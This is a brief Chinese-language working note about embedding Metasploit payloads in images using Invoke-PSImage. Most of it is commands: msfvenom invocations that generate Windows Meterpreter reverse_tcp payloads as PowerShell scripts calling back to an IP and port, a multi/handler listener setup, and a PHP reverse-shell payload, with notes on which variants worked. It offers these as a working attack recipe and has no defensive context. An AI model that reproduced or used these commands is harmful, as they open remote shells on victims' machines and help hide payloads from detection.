 
[Invoke-PSImage利用分析](https://www.4hou.com/technology/9472.html)

[msf使用参考] (https://blog.csdn.net/nzjdsds/article/details/82929265)

'''fail
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.255.153 LPORT=2333 -f powershell  -o img.ps1 

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.255.153 LPORT=2333 -f powershell  -o img2.ps1   

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.255.153 LPORT=2333 -f powershell  -o img3.ps1  --smallest  

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.255.153 LPORT=2333 -f powershell  -o img4.ps1  --smallest   
'''

success

```msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.255.153 LPORT=2333 -f psh-reflection  -o img.ps1 --smallest```

打开msf

```
use exploit/multi/handler
set LHOST 192.168.255.153
set LPORT 2333 
set PAYLOAD windows/x64/meterpreter/reverse_tcp
exploit
```

payload的选择取决于生成被控端文件用了什么模块，名字都是一样的

msfpayload php/reverse_php LHOST=x.x.x.x LPORT=2333 R > re.php

set PAYLOAD php/reverse_php

msf生成的payload执行可以反弹,但无法附加到生成的图片中执行
